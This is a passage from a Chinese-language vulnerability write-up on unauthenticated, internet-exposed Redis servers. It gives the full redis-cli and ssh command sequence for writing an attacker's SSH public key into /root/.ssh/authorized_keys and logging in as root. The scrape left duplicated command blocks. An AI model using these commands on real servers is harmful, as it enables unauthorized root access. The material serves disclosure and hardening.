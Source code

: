 2、漏洞影响
Redis 暴露在公网（即绑定在0.0.0.0:6379，目标IP公网可访问），并且没有开启相关认证和添加相关安全策略情况下可受影响而导致被利用。

通过ZoomEye 的搜索结果显示，有97707在公网可以直接访问的Redis服务。

QQ20151111-0@2x

根据 ZoomEye 的探测，全球无验证可直接利用Redis 分布情况

3、漏洞分析与利用
首先在本地生产公私钥文件：

$ssh-keygen –t rsa
1
$ssh-keygen –t rsa
ssh-keygen

然后将公钥写入 foo.txt 文件

$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
1
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
再连接 Redis 写入文件

$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
redis_ssh

这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：

$ ssh –i  id_rsa root@192.168.1.11
1
$ ssh –i  id_rsa root@192.168.1.11
即可远程利用自己的私钥登录该服务器。

当然，写入的目录不限于 /root/.ssh 下的authorized_keys，也可以写入用户目录，不过 Redis 很多以 root 权限运行，所以写入 root 目录下，可以跳过猜用户的步骤。
